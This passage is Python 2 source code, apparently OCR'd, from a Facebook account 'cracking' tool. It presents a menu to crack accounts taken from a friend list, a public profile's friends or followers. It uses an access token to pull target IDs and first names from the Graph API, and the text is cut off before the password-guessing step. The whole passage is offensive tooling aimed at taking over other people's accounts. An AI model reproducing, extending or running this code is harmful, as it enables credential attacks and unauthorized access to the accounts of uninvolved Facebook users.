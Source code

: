 	print ("\033[1;97m[1]\033[1;91m-⋄-\033[1;97mCrack From Friend List")
	print ("\033[1;97m[2]\033[1;91m-⋄-\033[1;97mCrack From Public ID")
	print ("\033[1;97m[3]\033[1;91m-⋄-\033[1;97mCrack From Followers")
	print ('\033[1;97m[0]\033[1;91m-⋄-\033[1;97mBack')
	print("\033[1;97m--------------------------------------------------")
	crack2()
def crack2():
	select = raw_input("\n╰─➣ ")
	id=[]
	oks=[]
	cps=[]
	if select=="1":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Frienlist\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for s in z["data"]:
			uid=s['id']
			na=s['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="2":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Public ID\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;97m Input ID :\033[1;93m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Have Privacy On Friendlist OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid=i['id']
			na=i['name']
			nm=na.rsplit(" ")[0]
			id.append(uid+'|'+nm)
	elif select =="3":
		os.system("clear")
		print logo
		print("\t\033[1;93m  Clone From Followers\033[1;0m")
		print("\033[1;97m--------------------------------------------------")
		idt = raw_input("\033[1;97m[+]\033[1;97m Input ID :\033[1;93m ")
		print("\033[1;97m--------------------------------------------------")
		os.system("clear")
		print logo
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			print("[✓] Account Name : "+q["name"])
		except KeyError:
			print('\n[!] Error 404 . ID Link '+idt+' Donot Have Followers OR IS Not Valid')
			raw_input("\nPress Enter To Back ")
			crack()